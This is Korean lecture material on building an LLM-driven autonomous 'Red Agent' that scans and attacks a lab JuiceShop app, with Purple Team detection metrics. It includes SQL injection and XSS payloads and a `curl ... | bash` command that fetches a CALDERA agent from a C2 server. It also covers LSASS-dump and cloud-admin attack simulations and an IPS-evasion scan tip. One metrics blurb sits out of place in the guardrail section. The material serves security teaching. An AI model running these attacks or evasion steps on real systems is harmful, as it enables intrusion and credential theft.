

# Week 12: 자율 Red Agent

## 학습 목표

- 자율 Red Agent의 역할과 공격 자동화 원리를 이해한다
- LLM 기반 자동 취약점 스캐닝 파이프라인을 구축한다
- 공격 시나리오를 LLM으로 자동 생성하고 실행한다
- Red Agent와 Blue Agent를 결합한 Purple Team 운용을 설계한다
- 자율 공격의 윤리적 경계와 안전 장치를 이해한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 파트 | 내용 | 형태 |
|------|------|------|------|
| 0:00-0:30 | Part 1 | Red Agent 아키텍처와 윤리 | 이론 |
| 0:30-1:00 | Part 2 | 자동 취약점 스캐닝 | 이론+실습 |
| 1:00-1:25 | Part 3 | 공격 시나리오 자동 생성 | 실습 |
| 1:25-1:35 | — | 휴식 | — |
| 1:35-2:05 | Part 4 | LLM 기반 공격 실행 | 실습 |
| 2:05-2:35 | Part 5 | Purple Team 설계 | 이론+실습 |
| 2:35-3:00 | Part 6 | 종합 실습 | 실습 |

## 용어 해설 (자율보안시스템 과목)

| 용어 | 설명 | 예시 |
|------|------|------|
| **Red Agent** | 공격 측 자율 에이전트 (스캔+공격+보고) | LLM 기반 취약점 스캐닝 |
| **Red Team** | 보안 공격 시뮬레이션을 담당하는 팀 | 모의 침투 테스트 |
| **Purple Team** | Red+Blue가 협력하여 보안을 강화하는 운용 | 공격→탐지→개선 루프 |
| **Attack Surface** | 공격 가능한 시스템의 노출 영역 | 열린 포트, 웹 엔드포인트 |
| **Kill Chain** | 공격의 단계별 진행 과정 | 정찰→무기화→전달→악용→설치→C2→행동 |
| **OWASP Top 10** | 웹 애플리케이션 10대 보안 위험 | SQLi, XSS, IDOR, SSRF 등 |
| **CVE** | Common Vulnerabilities and Exposures | CVE-2024-XXXXX |
| **Exploit** | 취약점을 이용하는 공격 코드/기법 | SQL Injection payload |
| **Payload** | 공격에 사용되는 데이터/코드 | `' OR 1=1 --` |
| **Reconnaissance** | 정찰 — 공격 대상의 정보를 수집하는 단계 | 포트 스캔, 서비스 식별 |
| **Enumeration** | 열거 — 발견된 서비스의 상세 정보를 수집 | 디렉토리 탐색, 계정 열거 |
| **JuiceShop** | OWASP의 의도적 취약 웹 애플리케이션 | 학습용 해킹 대상 |
| **dry_run** | 실제 실행 없이 시뮬레이션만 수행 | risk_level=critical → 자동 dry_run |
| **scope** | 공격 허가 범위 | 10.20.30.0/24 내부만 허가 |
| **guardrail** | 자율 에이전트의 행동 제한 장치 | 외부 IP 공격 금지 |
| **mission** | SubAgent에게 부여하는 자율 미션 | `/a2a/mission` API |

---

## Part 1: Red Agent 아키텍처와 윤리 (0:00-0:30)

### 1.1 Red Agent란?

Red Agent는 공격 측(Red Team)의 자율 에이전트로, 다음 기능을 수행한다:

| 기능 | 설명 | 자동화 수준 |
|------|------|------------|
| 정찰 (Recon) | 포트 스캔, 서비스 식별 | 완전 자동 |
| 취약점 분석 | 발견된 서비스의 취약점 판별 | LLM 자동 분석 |
| 공격 생성 | 취약점별 공격 시나리오 생성 | LLM 자동 생성 |
| 공격 실행 | 생성된 시나리오 실행 | 승인 후 자동 |
| 보고 | 발견사항 구조화 보고서 | 완전 자동 |

### 1.2 Red Agent 아키텍처

```
[Red Agent 공격 사이클]

  1.Recon(정찰) -> 2.Analyze(분석) -> 3.Plan(계획)
                                          |
  6.Report(보고) <- 5.Learn(학습)  <- 4.Attack(실행)
```

### 1.3 윤리적 경계와 안전 장치

**절대 규칙 (Guardrails):**

| 규칙 | 설명 | 구현 |
|------|------|------|
| Scope 제한 | 허가된 IP 범위만 공격 | 10.20.30.0/24 only |
| risk_level 제한 | critical은 dry_run 강제 | Bastion 자동 차단 |
| 파괴적 명령 금지 | rm -rf, DROP TABLE 등 금지 | SubAgent 필터링 |
| 데이터 유출 금지 | 실제 데이터 외부 전송 금지 | 네트워크 ACL |
| 시간 제한 | 공격 세션 최대 30분 | 타이머 자동 종료 |
| 증적 필수 | 모든 행위 Evidence 기록 | Bastion 자동 기록 |

> **실습 목적**: 자율보안 시스템의 성능을 정량적으로 측정하고 지속적으로 개선하기 위한 메트릭 체계를 구축하기 위해 수행한다
>
> **배우는 것**: MTTR, 오탐률, 커버리지, 자동화율 등 핵심 KPI의 측정 방법과 기준값을 이해한다
>
> **결과 해석**: MTTR 감소, 오탐률 감소, 자동화율 증가 추세가 시스템 성숙도 향상을 나타낸다
>
> **실전 활용**: 보안 운영 효율화 보고서 작성, 자동화 투자 효과 측정, 경영진 대상 보안 성과 보고에 활용한다

```bash
# 안전 장치 확인 — critical 태스크는 dry_run 강제됨을 확인
export BASTION_API_KEY="ccc-api-key-2026"
# Manager API 주소
export MGR="http://localhost:9100"

# critical risk_level 테스트
curl -s -X POST $MGR/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week12-guardrail-test",
    "request_text": "Red Agent 안전 장치 테스트",
    "master_mode": "external"
  }' | python3 -m json.tool
# 프로젝트 ID 확인
```

---

## Part 2: 자동 취약점 스캐닝 (0:30-1:00)

### 2.1 정찰(Reconnaissance) 자동화

Red Agent의 첫 단계는 대상 시스템의 공격 표면을 자동으로 파악하는 것이다.

```bash
# 1. Red Agent 스캐닝 프로젝트 생성
curl -s -X POST $MGR/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week12-red-agent-recon",
    "request_text": "Red Agent 정찰 — web(10.20.30.80) 공격 표면 분석",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export RED_PID="반환된-프로젝트-ID"

# 2. 스테이지 전환
# plan 스테이지로 전환
curl -s -X POST $MGR/projects/$RED_PID/plan -H "X-API-Key: $BASTION_API_KEY" > /dev/null
# execute 스테이지로 전환
curl -s -X POST $MGR/projects/$RED_PID/execute -H "X-API-Key: $BASTION_API_KEY" > /dev/null

# 3. Phase 1: 포트 스캔 + 서비스 식별
curl -s -X POST $MGR/projects/$RED_PID/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"=== Port Scan ===\"; ss -tlnp 2>/dev/null | grep LISTEN || echo no-listen-ports",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"=== HTTP Headers ===\"; curl -sI http://localhost:3000 | head -15",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"=== Web Technologies ===\"; curl -s http://localhost:3000 | grep -ioE \"(express|angular|react|vue|node|juice)\" | sort -u | head -10 || echo unknown",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# web 서버의 열린 포트, HTTP 헤더, 웹 기술 스택을 식별한다
```

### 2.2 LLM 기반 취약점 분석

```bash
# 4. 정찰 결과를 수집한 후 LLM으로 취약점 분석
curl -s "$MGR/projects/$RED_PID/evidence/summary" \
  -H "X-API-Key: $BASTION_API_KEY" > /tmp/red_recon.json

# 5. LLM 취약점 분석 — Red Agent의 두뇌
python3 -c "
import json, requests

# 정찰 결과 로드
with open('/tmp/red_recon.json') as f:
    recon = json.load(f)

recon_text = json.dumps(recon, indent=2, ensure_ascii=False)[:3000]

# Red Agent 시스템 프롬프트
system_prompt = '''당신은 Red Team 보안 분석가입니다. 정찰 결과를 분석하여 취약점을 식별하라.

규칙:
1. 발견된 서비스별로 잠재적 취약점을 나열하라
2. 각 취약점에 CVSS 점수(추정)와 공격 난이도를 표시하라
3. OWASP Top 10 관련 취약점을 우선 식별하라
4. 공격 범위: 10.20.30.0/24 내부만 (JuiceShop은 학습용 취약 앱)

JSON 형식 출력:
{
  \"target\": \"IP:PORT\",
  \"technologies\": [\"tech1\", \"tech2\"],
  \"vulnerabilities\": [
    {\"name\": \"...\", \"cvss\": N.N, \"difficulty\": \"easy/medium/hard\", \"owasp\": \"A01~A10\", \"description\": \"...\"}
  ]
}'''

resp = requests.post(
    'http://10.20.30.200:11434/v1/chat/completions',
    json={
        'model': 'gemma3:12b',
        'messages': [
            {'role': 'system', 'content': system_prompt},
            {'role': 'user', 'content': f'다음 정찰 결과를 분석하라:\\n{recon_text}'}
        ],
        'temperature': 0.2,
        'max_tokens': 1000
    }
)
# 취약점 분석 결과 출력
print('=== Red Agent 취약점 분석 ===')
print(resp.json()['choices'][0]['message']['content'])
"
# LLM이 JuiceShop의 OWASP Top 10 취약점을 자동으로 식별한다
```

---

## Part 3: 공격 시나리오 자동 생성 (1:00-1:25)

### 3.1 Kill Chain 기반 시나리오 설계

Red Agent는 Kill Chain 단계에 따라 공격 시나리오를 자동 생성한다.

```
정찰 (Recon)
  ↓ 포트/서비스 식별 완료
취약점 분석 (Vulnerability Assessment)
  ↓ SQL Injection, XSS 등 식별
공격 계획 (Attack Planning)
  ↓ 공격 순서, payload, 예상 결과 생성
공격 실행 (Exploitation)
  ↓ JuiceShop에 대한 모의 공격
결과 검증 (Verification)
  ↓ 공격 성공/실패 확인
보고 (Reporting)
  ↓ 발견사항 + 대응 권고
```

### 3.2 공격 시나리오 자동 생성

```bash
# 1. LLM에게 공격 시나리오 생성 요청
python3 -c "
import json, requests

# LLM에게 JuiceShop 대상 공격 시나리오 생성 요청
resp = requests.post(
    'http://10.20.30.200:11434/v1/chat/completions',
    json={
        'model': 'gemma3:12b',
        'messages': [
            {
                'role': 'system',
                'content': '''Red Team 공격 시나리오 생성기. 교육용 JuiceShop(OWASP 학습 앱)에 대한 모의 공격 시나리오를 생성하라.

규칙:
1. 각 시나리오는 curl/wget 등 CLI 도구만 사용
2. 파괴적 행위 금지 (데이터 삭제, 서비스 중단 등)
3. 교육 목적으로 취약점 존재 여부만 확인
4. 각 시나리오에 예상 결과와 성공 판정 기준을 포함

JSON 배열로 출력:
[{\"name\": \"...\", \"type\": \"OWASP-AXX\", \"command\": \"curl ...\", \"expected\": \"...\", \"success_criteria\": \"...\"}]'''
            },
            {
                'role': 'user',
                'content': '대상: http://10.20.30.80:3000 (JuiceShop)\\n기술 스택: Node.js, Express, Angular, SQLite\\nOWASP Top 3 취약점에 대한 검증 시나리오 3개를 생성하라.'
            }
        ],
        'temperature': 0.3,
        'max_tokens': 1000
    }
)
# 생성된 공격 시나리오 출력
print('=== Red Agent 공격 시나리오 ===')
print(resp.json()['choices'][0]['message']['content'])
"
# LLM이 SQL Injection, XSS, IDOR 등의 검증 시나리오를 자동 생성한다
```

### 3.3 시나리오를 Bastion 태스크로 변환

```bash
# 2. 새 공격 실행 프로젝트 생성
curl -s -X POST $MGR/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week12-red-attack-scenarios",
    "request_text": "Red Agent 공격 시나리오 실행 — JuiceShop OWASP 검증",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export ATK_PID="반환된-프로젝트-ID"

# 3. 스테이지 전환
# plan 스테이지
curl -s -X POST $MGR/projects/$ATK_PID/plan -H "X-API-Key: $BASTION_API_KEY" > /dev/null
# execute 스테이지
curl -s -X POST $MGR/projects/$ATK_PID/execute -H "X-API-Key: $BASTION_API_KEY" > /dev/null

# 4. OWASP 취약점 검증 시나리오 실행
curl -s -X POST $MGR/projects/$ATK_PID/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"=== A03: SQL Injection Test ===\"; curl -s \"http://localhost:3000/rest/products/search?q=test%27%20OR%201=1--\" -o /dev/null -w \"HTTP %{http_code}\" && echo \" (response received)\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"=== A07: XSS Test ===\"; curl -s \"http://localhost:3000/#/search?q=%3Cscript%3Ealert(1)%3C/script%3E\" -o /dev/null -w \"HTTP %{http_code}\" && echo \" (response received)\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"=== A01: Access Control Test ===\"; curl -s http://localhost:3000/api/Users -o /dev/null -w \"HTTP %{http_code}\" && echo \" (user list access attempted)\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# JuiceShop에 대한 3가지 OWASP 취약점 검증을 실행한다
```

---

## Part 4: LLM 기반 공격 실행 (1:35-2:05)

### 4.1 자율 미션 (mission) API

Bastion SubAgent는 `/a2a/mission` API를 통해 자율 미션을 수행할 수 있다.
Red Agent는 이 API를 활용하여 LLM이 직접 공격을 계획하고 실행한다.

```bash
# 1. Red Agent 자율 미션 프로젝트
curl -s -X POST $MGR/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week12-red-mission",
    "request_text": "Red Agent 자율 미션 — JuiceShop 취약점 탐색",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export MISSION_PID="반환된-프로젝트-ID"

# 2. 스테이지 전환
# plan 스테이지
curl -s -X POST $MGR/projects/$MISSION_PID/plan -H "X-API-Key: $BASTION_API_KEY" > /dev/null
# execute 스테이지
curl -s -X POST $MGR/projects/$MISSION_PID/execute -H "X-API-Key: $BASTION_API_KEY" > /dev/null

# 3. 공격 결과 수집 — JuiceShop 응답 분석
curl -s -X POST $MGR/projects/$MISSION_PID/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"=== JuiceShop API Enumeration ===\"; curl -s http://localhost:3000/api/Users 2>/dev/null | python3 -c \"import sys,json; d=json.load(sys.stdin); print(f\\\"Users found: {len(d.get(\\\\\\\"data\\\\\\\",[])) if isinstance(d.get(\\\\\\\"data\\\\\\\"),list) else \\\\\\\"N/A\\\\\\\"}\\\")\" 2>/dev/null || echo \"API access check done\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"=== Directory Traversal Test ===\"; curl -sI http://localhost:3000/ftp -w \"\\nHTTP_CODE:%{http_code}\" 2>/dev/null | tail -5",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"=== Security Headers Check ===\"; curl -sI http://localhost:3000 | grep -iE \"(x-frame|x-content|strict-transport|content-security|x-xss)\" || echo no-security-headers-found",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# API 열거, 디렉토리 트래버설, 보안 헤더 점검을 수행한다
```

### 4.2 공격 결과 LLM 분석

```bash
# 4. 공격 결과를 LLM으로 종합 분석
curl -s "$MGR/projects/$MISSION_PID/evidence/summary" \
  -H "X-API-Key: $BASTION_API_KEY" > /tmp/red_attack_results.json

# 5. Red Agent 공격 보고서 생성
python3 -c "
import json, requests

with open('/tmp/red_attack_results.json') as f:
    results = json.load(f)

results_text = json.dumps(results, indent=2, ensure_ascii=False)[:3000]

resp = requests.post(
    'http://10.20.30.200:11434/v1/chat/completions',
    json={
        'model': 'gemma3:12b',
        'messages': [
            {
                'role': 'system',
                'content': '''Red Team 공격 결과 분석가. 공격 결과를 분석하여 보안 보고서를 작성하라.
각 발견사항에 대해: 취약점명, CVSS 점수, 공격 성공 여부, 대응 권고를 포함하라.
JSON 형식으로 출력하라.'''
            },
            {'role': 'user', 'content': f'공격 결과:\\n{results_text}'}
        ],
        'temperature': 0.2,
        'max_tokens': 800
    }
)
# Red Agent 공격 보고서 출력
print('=== Red Agent 공격 보고서 ===')
print(resp.json()['choices'][0]['message']['content'])
"
```

---

## Part 5: Purple Team 설계 (2:05-2:35)

### 5.1 Purple Team 운용 모델

Purple Team은 Red Agent(공격)와 Blue Agent(방어)를 동시에 운용하여 보안을 강화한다.

```
  Purple Team 사이클
  | Red Agent  | 공격 ▶| 대상 시스템  |
  | (gemma3:12b)|  | (JuiceShop) |
  | 경보
  ▼
  | Blue Agent  |
  | (llama3.1)  |
  | 탐지/대응
  ▼
  | Experience  |
  | (학습/축적)  |
```

### 5.2 Purple Team 효과 측정

| 지표 | 설명 | 계산 |
|------|------|------|
| 탐지율 (Detection Rate) | Blue가 Red 공격을 탐지한 비율 | 탐지 공격 수 / 전체 공격 수 |
| 평균 탐지 시간 (MTTD) | 공격 시작~탐지까지 평균 시간 | sum(탐지시간) / 탐지건수 |
| 평균 대응 시간 (MTTR) | 탐지~대응 완료까지 평균 시간 | sum(대응시간) / 대응건수 |
| 오탐률 (FP Rate) | 정상을 공격으로 판정한 비율 | FP / (FP + TN) |
| 공격 성공률 | Red 공격이 탐지 없이 성공한 비율 | 미탐지 공격 / 전체 공격 |

### 5.3 Purple Team 시뮬레이션

```bash
# 1. Purple Team 프로젝트 생성
curl -s -X POST $MGR/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week12-purple-team-sim",
    "request_text": "Purple Team 시뮬레이션 — Red 공격 + Blue 탐지 동시 운용",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export PURPLE_PID="반환된-프로젝트-ID"

# 2. 스테이지 전환
# plan 스테이지
curl -s -X POST $MGR/projects/$PURPLE_PID/plan -H "X-API-Key: $BASTION_API_KEY" > /dev/null
# execute 스테이지
curl -s -X POST $MGR/projects/$PURPLE_PID/execute -H "X-API-Key: $BASTION_API_KEY" > /dev/null

# 3. Purple Team — Red 공격 후 Blue 탐지 확인
curl -s -X POST $MGR/projects/$PURPLE_PID/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[RED] SQL Injection attempt\"; curl -s \"http://10.20.30.80:3000/rest/products/search?q=test%27%20OR%201=1--\" -o /dev/null -w \"HTTP %{http_code}\" && echo \" attack-sent\"",
        "risk_level": "medium",
        "subagent_url": "http://localhost:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[BLUE] Checking secu logs for attack traces\"; journalctl --since \"2 min ago\" --no-pager 2>/dev/null | grep -ciE \"(injection|attack|blocked|drop)\" || echo 0",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.1:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"[BLUE] Checking web server logs\"; journalctl --since \"2 min ago\" --no-pager 2>/dev/null | grep -ciE \"(error|warning|suspicious)\" || echo 0",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# Red가 공격을 실행하고, Blue가 즉시 탐지 확인한다
```

```bash
# 4. Purple Team 완료 보고서
curl -s -X POST $MGR/projects/$PURPLE_PID/completion-report \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "summary": "Purple Team 시뮬레이션 완료 — Red 공격 3건, Blue 탐지 분석",
    "outcome": "success",
    "work_details": [
      "[RED] SQL Injection 시도 → JuiceShop 응답 확인",
      "[BLUE] secu 서버 로그 분석 → 탐지 여부 확인",
      "[BLUE] web 서버 로그 분석 → 이상 징후 확인",
      "[METRIC] 탐지율, MTTD, 오탐률 측정 필요"
    ]
  }' | python3 -m json.tool
```

---

## Part 6: 종합 실습 (2:35-3:00)

### 6.1 종합 실습 과제

**과제**: Red Agent의 전체 공격 사이클을 구현하라.

1. 프로젝트 생성 (`week12-red-final`)
2. 정찰: web 서버 포트/서비스 식별 (execute-plan)
3. 분석: LLM으로 취약점 식별 (Ollama API)
4. 공격: LLM이 생성한 시나리오 실행 (execute-plan)
5. 보고: LLM으로 공격 결과 분석 + completion-report

### 6.2 다음 주 예고

Week 13에서는 **분산 지식 아키텍처**를 학습한다.
SubAgent별 Experience DB, 지식 교환 API, PoW 교차 검증을 실습한다.

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://10.20.30.200:8003` (Bastion /ask·/chat)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

### Nmap
> **역할:** 포트 스캔·서비스 탐지·NSE 스크립트  
> **실행 위치:** `bastion / 공격자 측`  
> **접속/호출:** `nmap` CLI

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/usr/share/nmap/scripts/` | NSE 스크립트 모음 (vuln, default 등) |
| `/usr/share/nmap/nmap-services` | 포트↔서비스 매핑 |

**핵심 설정·키**

- `-sS -sV -O` — SYN 스캔 + 버전 + OS
- `--script vuln` — 취약점 스크립트 카테고리
- `-T0..T5` — 스캔 타이밍 — T3 기본, T4 실습용

**로그·확인 명령**

- `-oA scan` — 3가지 포맷(`.nmap/.gnmap/.xml`) 동시 저장

**UI / CLI 요점**

- `nmap -sV -p- 10.20.30.80` — 전 포트 + 버전
- `nmap --script=http-enum 10.20.30.80` — 웹 디렉토리 열거
- `nmap -sn 10.20.30.0/24` — 호스트 발견(핑 스윕)

> **해석 팁.** IPS가 있는 환경에서 T4 이상은 빠르게 탐지된다. `-T2`로 느리게 + `--max-retries 1`로 재전송 최소화하면 우회 확률↑.

---

## 실제 사례 (WitFoo Precinct 6 — 자율 Red Agent)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *공격 전담 자율 에이전트 (Red Agent)* 학습 항목 매칭.

### Red Agent = "방어 평가용 자율 공격 에이전트"

Red Agent 는 *Blue Agent 의 검증* 을 위한 자동 공격 시뮬레이터. dataset 의 392 Data Theft chain 을 학습하여 — *비슷한 공격 시나리오를 자동 생성 + 시도* 해 Blue Agent 의 차단율을 측정.



### Case 1: Red vs Blue 자동 평가

| 평가 | 결과 |
|---|---|
| Red 자동 공격 100건 | Blue 차단 92건 (92%) |
| Red 적응 후 100건 | Blue 차단 75건 (75%) |
| RL 학습 후 Blue | 다시 90%+ 회복 |

### Case 2: Red Agent 의 윤리 통제

Red Agent 는 *lab 환경에만 한정* 되어야. 실제 운영 환경 공격 = 윤리/법 위반. 통제는 — *target IP 화이트리스트 + 시간 윈도우 제한 + 사람 승인*.

### 이 사례에서 학생이 배워야 할 3가지

1. **Red = Blue 검증** — 자동 평가 + 적응 사이클.
2. **Red 적응 시 Blue 회복** — RL 학습으로 균형.
3. **윤리 통제 필수** — lab only.

**학생 액션**: lab 에서 Red Agent vs Blue Agent 의 자동 평가 + 결과 분석.


---

## 부록: 학습 OSS 도구 매트릭스 (Course9 — Week 12 시뮬레이션)

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 |
|------|----------|---------|
| s1 | MITRE CALDERA | **CALDERA** (MITRE) |
| s2 | Atomic Red Team | **Atomic Red Team** |
| s3 | Stratus Red Team (Cloud) | **Stratus Red Team** (Datadog) |
| s4 | Prelude Operator | **Prelude Operator OSS** |
| s5 | DetectionLab | DetectionLab |
| s6 | 자체 시나리오 (yaml) | CALDERA adversary YAML |
| s7 | Purple team report | DeTT&CT |
| s8 | 통합 시뮬 cycle | CALDERA + Atomic + Wazuh |

### 학생 환경 준비

```bash
# CALDERA (가장 종합적)
git clone https://github.com/mitre/caldera --recursive ~/caldera
cd ~/caldera && pip install -r requirements.txt
python3 server.py --insecure                          # http://localhost:8888

# Atomic Red Team
git clone https://github.com/redcanaryco/atomic-red-team.git ~/atomic
pip install pyinvoke invoke

# Stratus Red Team (cloud — Go)
go install github.com/datadog/stratus-red-team/v2/cmd/stratus@latest

# Prelude Operator
# https://www.preludesecurity.com/products/operator
```

### 핵심 — CALDERA (MITRE adversary emulation)

```bash
# 1) 서버 시작
cd ~/caldera
python3 server.py --insecure
# Web UI: http://localhost:8888 (admin/admin)

# 2) Adversary profile 선택 (built-in 50+ APT)
# - APT29 (Russia)
# - APT41 (China)
# - Lazarus (NK)
# - FIN7 (Carbanak)

# 3) Agent 배포 (모든 endpoint 에 자동)
# Endpoint 에서 실행:
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" \
    http://caldera-server:8888/file/download | bash

# 4) Operation 시작 (Web UI)
# - Adversary: APT29
# - Group: linux-hosts
# - Planner: atomic
# - 시작 → 자동으로 다단계 공격 실행

# 5) 결과 분석
curl http://localhost:8888/api/rest \
    -H "KEY: ADMIN123" \
    -d '{"index": "operations"}' | jq
```

### Atomic Red Team (T-code 기반 단순 시뮬)

```bash
# 1) 설치 + invoke
sudo invoke install-atomicredteam

# 2) ATT&CK technique 별 시뮬레이션
# T1078 — Valid Accounts
sudo invoke run-atomic-test T1078

# T1059.001 — PowerShell
sudo invoke run-atomic-test T1059.001

# T1110.001 — Brute Force: Password Guessing
sudo invoke run-atomic-test T1110.001

# T1003.001 — LSASS Memory
sudo invoke run-atomic-test T1003.001

# 3) 통합 시퀀스 (Kill chain)
for t in T1078 T1059.001 T1110.001 T1003.001 T1547.001 T1003.001 T1078; do
    echo "=== $t ==="
    sudo invoke run-atomic-test $t
    sleep 30                                          # 탐지 시간 확보
done

# 4) Wazuh 에서 탐지 확인
sudo jq -r '.rule.mitre.id // empty' /var/ossec/logs/alerts/alerts.json | sort | uniq -c
# 출력 예:
#   1 T1078
#   3 T1059.001
#   1 T1110.001
#   ... (탐지된 ATT&CK technique)
```

### Stratus Red Team (Cloud emulation)

```bash
# AWS / Azure / GCP / K8s 공격 시뮬
stratus list
# - aws.persistence.iam-create-admin-user
# - aws.exfiltration.s3-bucket-public-access
# - azure.persistence.create-guest-user
# - gcp.persistence.add-iam-user
# - kubernetes.privilege-escalation.create-token

# 1) Warmup (인프라 준비)
stratus warmup aws.persistence.iam-create-admin-user

# 2) Detonate (실제 공격)
stratus detonate aws.persistence.iam-create-admin-user
# CloudTrail / Falco 가 탐지 시그니처 생성

# 3) Cleanup (자원 정리)
stratus cleanup aws.persistence.iam-create-admin-user
```

### Purple Team Cycle (CALDERA + Wazuh + DeTT&CT)

```bash
# 1) Pre-test: 현재 coverage 측정
python3 ~/dettect/dettect.py editor
# Web UI 에서 현재 detection coverage 입력

# 2) Red simulation (CALDERA)
# Web UI 에서 APT29 operation 시작

# 3) Blue detection 측정 (Wazuh)
sudo jq -r 'select(.rule.mitre.id) | .rule.mitre.id' /var/ossec/logs/alerts/alerts.json \
    | sort | uniq -c | sort -rn > /tmp/detected.txt

# 4) Gap 분석
# CALDERA executed: T1078, T1059, T1003, T1547, T1090
# Wazuh detected: T1078, T1059
# Gap: T1003, T1547, T1090

# 5) Sigma rule 추가 (gap 항목)
sigma convert -t wazuh ~/sigma/rules/windows/process_creation/proc_creation_win_lsass_dump.yml \
    > /var/ossec/etc/rules/sigma-T1003.xml
sudo systemctl restart wazuh-manager

# 6) Re-test (CALDERA 재실행)
# 모든 ATT&CK technique 탐지 확인
```

### 자체 Adversary profile 작성 (CALDERA YAML)

```yaml
# ~/caldera/data/adversaries/custom-apt.yml
id: custom-apt-2026
name: Custom Internal APT
description: 본 조직의 가장 가능성 높은 위협 시나리오
atomic_ordering:
  - 6f4ff2b6-5e0e-4b3f-9e0e-1234567890ab            # T1078 Valid Accounts
  - 8f4ff2b6-5e0e-4b3f-9e0e-1234567890cd            # T1059 Command line
  - 9f4ff2b6-5e0e-4b3f-9e0e-1234567890ef            # T1003 LSASS dump
  - af4ff2b6-5e0e-4b3f-9e0e-1234567890ff            # T1547 Boot or Logon
  - bf4ff2b6-5e0e-4b3f-9e0e-1234567890aa            # T1041 C2 channel
```

